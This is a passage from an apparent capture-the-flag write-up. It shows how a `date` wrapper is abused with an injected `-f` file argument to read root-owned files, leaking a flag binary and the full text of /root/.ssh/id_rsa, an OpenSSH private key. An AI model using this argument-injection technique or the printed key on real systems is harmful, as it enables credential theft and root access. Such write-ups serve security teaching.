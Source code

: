 ```bash
argument must be a format string beginning with '+'
Try 'date --help' for more information.
Sorry, that wasn't correct!
```
We find an interesting file name. Once more, using exactly this name:
```
Wed Jan  1 00:00:00 UTC 2020
Please select the date you meant:
                                                                                   
You've entered '-f /root/get_flag_random_suffix_345674837560870345'. Is that right?
date: invalid date ‘\177ELF\002\001\001’
date: invalid date ‘:’
date: invalid date ‘.\001?\031\003\016:\v;\v9\vI\023<\031\001\023’
Sorry, that wasn't correct!
```
This is a binary executable, likely containing our flag once we execute as root. So, clearly, we do indeed need code execution as root.

Eventually, I thought to look for ssh keys in `/root/.ssh/id_rsa`:
```bash
date: invalid date ‘-----BEGIN OPENSSH PRIVATE KEY-----’
date: invalid date ‘b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn’
date: invalid date ‘NhAAAAAwEAAQAAAYEAxllMaPu/ewDglK/+qcskWbUTSiQtLBBX4Ls5EGWmGbTdKh7K7trC’
date: invalid date ‘Nht9hbSx8Ei4cLQWhbbwcvIqDAgrXYO9Vb/sr/BEyk1aVVTpFfLuFbsyZNZTqmONajdsf9’
date: invalid date ‘Kl/4Qy9u8/3duhBYaeV0Am4tK9mzM8/D2YbzmYD+pK8GFwJDQG5RdFstj6NxXjROAsaj8H’
date: invalid date ‘U7HHvkNFctEMMBmquAaG85DZO83ZUWWASB702UNrc701Mhdf7Ln92D2aEhwMisdBjK/F83’
date: invalid date ‘K71YIcrpkuDTQYhms4SGUlYIlUaIhridKH3m3BgCNhC5mjsy5IkV0VwG/SRxew0adhHxT+’
date: invalid date ‘Gc9izi2yy1uW1wrJT0u8ImQhTm35R+cLD+SpWJSHswDxygCVHTUvVIngNakJvWXRKDmS3N’
date: invalid date ‘PjIu9gaJ3D69Q3BDlxcbluhjl2Z/5nenryUZdoVORnCf75YiWgTtI/FhS7HnHyw69LaJoH’
date: invalid date ‘1NPGh/mV730OsnqtdakxkHXd3CDhcwY5QjvJlFEdAAAFgAlNDvEJTQ7xAAAAB3NzaC1yc2’
date: invalid date ‘EAAAGBAMZZTGj7v3sA4JSv/qnLJFm1E0okLSwQV+C7ORBlphm03Soeyu7awjYbfYW0sfBI’
date: invalid date ‘uHC0FoW28HLyKgwIK12DvVW/7K/wRMpNWlVU6RXy7hW7MmTWU6pjjWo3bH/Spf+EMvbvP9’
date: invalid date ‘3boQWGnldAJuLSvZszPPw9mG85mA/qSvBhcCQ0BuUXRbLY+jcV40TgLGo/B1Oxx75DRXLR’
date: invalid date ‘DDAZqrgGhvOQ2TvN2VFlgEge9NlDa3O9NTIXX+y5/dg9mhIcDIrHQYyvxfNyu9WCHK6ZLg’
date: invalid date ‘00GIZrOEhlJWCJVGiIa4nSh95twYAjYQuZo7MuSJFdFcBv0kcXsNGnYR8U/hnPYs4tsstb’
date: invalid date ‘ltcKyU9LvCJkIU5t+UfnCw/kqViUh7MA8coAlR01L1SJ4DWpCb1l0Sg5ktzT4yLvYGidw+’
date: invalid date ‘vUNwQ5cXG5boY5dmf+Z3p68lGXaFTkZwn++WIloE7SPxYUux5x8sOvS2iaB9TTxof5le99’
date: invalid date ‘DrJ6rXWpMZB13dwg4XMGOUI7yZRRHQAAAAMBAAEAAAGAECAzdPeUCOaN264hU2Gcz3RIIL’
date: invalid date ‘InQAVbd6hmX8hmhCwvAkfQR4dehx1ItmWgmoChtNFXYWtO9NwZAghp/3zV7aegZmoaKvkL’
date: invalid date ‘UT5e2DYmGCXeLNI7VBzVjZ9QQWYkBng+LShPYMoEjIP2J0bObTN6pH26cBF77VMD42Cw01’
date: invalid date ‘vrTO4z6ffbO/VQW8kk7zUV4f9vfjpJGyqx9enmsURs8PA1lDjLCIXYV2Sb/4EQzAHOCxyv’
date: invalid date ‘Zfv+LwCsvCIUqXNBVnO+N7hg5b/zh7gyvuzHq/vyOTjkNceQa7SZ/egeclWGkkYttUzUr1’
date: invalid date ‘0cveVqXTM2tfJhv8+cobJcmO7IccjsOyL+zYPR3mN/Q1nUvGyAERppXfhwTAZ5ljMRDkv/’
date: invalid date ‘KUy7IJ3Q9FnSVdqkni2u6ErHEer0/TKXAT92LYQXzTczd6hGvh+IADlmOLzU2d0RfkPZZ4’
date: invalid date ‘8GKvZfThN1OSMVpcwJMVeILWP6uz9WnnUAXgLIUriJK7rrsHpH0MNTmfTT9v5VSH3RAAAA’
date: invalid date ‘wB2od8rr4IU8AkpZ/kE9kY5a/INNsvSdUA6sn/5Fwso19fiPz2vYdP9fJMYjShV1wb8UFt’
date: invalid date ‘cajFvnnj2DnClU0imh1eC0fB5+vAmJvx8Qq9NWcmz7aejvZrBdIFbqGYr5krc5KvmizYVC’
date: invalid date ‘+tII4u4s5SFcvcZwmuIsWJQjbXA7VVa8v8Y10YJdeYsl3YpKqJdU0xPkt2Y2IgZxTJ4Dd9’
date: invalid date ‘MKgcPTBdOVuKA8r8ALCth9OV74k1GOEpLbDIY4gFiXbi7crQAAAMEA2Z0ZtNS6bUEq61DF’
date: invalid date ‘6758uI3wIeYe8NoGyxlH/oTGVqy5KfQ9vCochcSx0yov4MSZBY+foE8OAxNvAxBSV+2CnQ’
date: invalid date ‘4OHnZnKa9teSvphUCmnt4Va7CWRzmVmNiKlpMOky2P8Zfv3LdgpwrAbwxBL1HQv/eivXDm’
date: invalid date ‘0BQCxuiaOp5/3nz+K+IvA/cBhsJwS6bWMtAhcfzKfS7/NzgcLTtlVR1Li/vC/r69iDs/xi’
date: invalid date ‘zDGCjuOrjsWhqqIqjhMGZjguTz9Y+FAAAAwQDpVj6g1OSqzZ5Kw805VTcbRRTmiHb00hht’
date: invalid date ‘U4LYw5xV+1iNJ8/BijiIZaT/zXnZbzIzLBnPbzqNLW5sBPJ+eMo5wY5ZNKa/qMd4Rdj6Hx’
date: invalid date ‘pAVbuqv6sYPhj2Xl6R/yJUVRw6OGoIa0SEumrmXzbJTT25o9FgItuKOpRRWd9l4gB8Pa1I’
date: invalid date ‘LLomZzqAmpdZtcMX+ihYPAJL5UBGPkD4CO7JwHm+W36NpAEKhi/Fh6D/U/RPEtwXZEbaWY’
date: invalid date ‘vIJis7FbO7UrkAAAAJa2FsaUBrYWxpAQI=’
date: invalid date ‘-----END OPENSSH PRIVATE KEY-----’
Sorry, that wasn't correct!
```
